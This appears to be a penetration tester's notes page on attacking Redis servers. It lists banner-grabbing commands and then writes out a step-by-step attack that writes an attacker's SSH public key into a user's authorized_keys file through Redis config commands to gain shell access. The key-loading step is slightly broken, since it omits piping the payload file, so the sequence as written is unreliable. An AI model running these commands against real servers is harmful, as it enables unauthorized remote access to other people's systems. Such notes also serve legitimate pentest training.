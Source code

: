 # Redis

TODO: Fill this info

## 01 - Banner Grab

### 1.1 - Manual

#### 1.1.1 - Redis CLI

```
$ sudo apt install -y redis-tools

$ redis-cli -h <IP>
```

#### 1.1.2 - Netcat

```
$ nc -vn <IP> 6379
```

### 1.2 - Network Mapper

```
$ nmap -p 6379 -Pn -n -sV --script 6379 <IP>
```

### 1.3 - Metasploit

```
msf > use auxiliary/scanner/redis/redis_server

msf auxiliary(scanner/redis/redis_server) > options
```

## 02 - Command Execution

TODO: Re-arrange it in initial foothold

```
$ ssh-keygen -qt rsa -b 4096 -f /tmp/id_rsa -C '' -N ''

$ (echo -e "\n\n"; cat /tmp/id_rsa.pub; echo -e "\n\n") > payload.txt

$ redis-cli -h <IP> -x set crackit

<target_IP>:6379> config set dir /home/<username>/.ssh/
OK
<target_IP>:6379> config set dbfilename "authorized_keys"
OK
<target_IP>:6379> save
OK
```

---
## References

### Hacktricks

 - [Hacktricks: Pentesting Redis](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html)